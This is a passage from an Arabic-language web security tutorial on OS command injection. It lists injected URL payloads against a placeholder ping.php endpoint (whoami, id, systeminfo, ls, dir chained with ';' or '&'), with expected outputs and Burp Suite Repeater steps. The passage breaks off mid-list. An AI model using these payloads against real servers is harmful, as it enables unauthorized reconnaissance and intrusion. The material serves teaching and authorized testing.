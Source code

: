 ### 2. أوامر استكشاف النظام
الهدف هو جمع معلومات عن النظام (نوع نظام التشغيل، المستخدم، الملفات).

#### أ. معرفة المستخدم الحالي
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; whoami
    ```
  - **الأمر**: `whoami`
  - **النتيجة المتوقعة**: اسم المستخدم (مثل `www-data`, `root`).
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & whoami
    ```
  - **النتيجة المتوقعة**: اسم المستخدم (مثل `Administrator`, `SYSTEM`).
- **متى يُستخدم؟**:
  - لتحديد صلاحيات التطبيق على الخادم.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - سجّل اسم المستخدم لتحديد الصلاحيات.

#### ب. معرفة معلومات النظام
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; id
    ```
  - **الأمر**: `id`
  - **النتيجة المتوقعة**: معلومات المستخدم والمجموعات (مثل `uid=33(www-data) gid=33(www-data)`).
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & systeminfo
    ```
  - **الأمر**: `systeminfo`
  - **النتيجة المتوقعة**: تفاصيل النظام (مثل إصدار Windows، اسم الخادم).
- **متى يُستخدم؟**:
  - لمعرفة نوع النظام والإصدار.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحليل الاستجابة لتحديد نوع النظام.

#### ج. عرض الملفات في الدليل الحالي
- **Linux**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1; ls
    ```
  - **الأمر**: `ls` أو `ls -la`
  - **النتيجة المتوقعة**: قائمة الملفات (مثل `index.php config.php`).
- **Windows**:
  - **الإدخال**:
    ```
    http://example.com/ping.php?ip=127.0.0.1 & dir
    ```
  - **الأمر**: `dir`
  - **النتيجة المتوقعة**: قائمة الملفات (مثل `index.php config.php`).
- **متى يُستخدم؟**:
  - لاستكشاف الملفات في دليل التطبيق.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.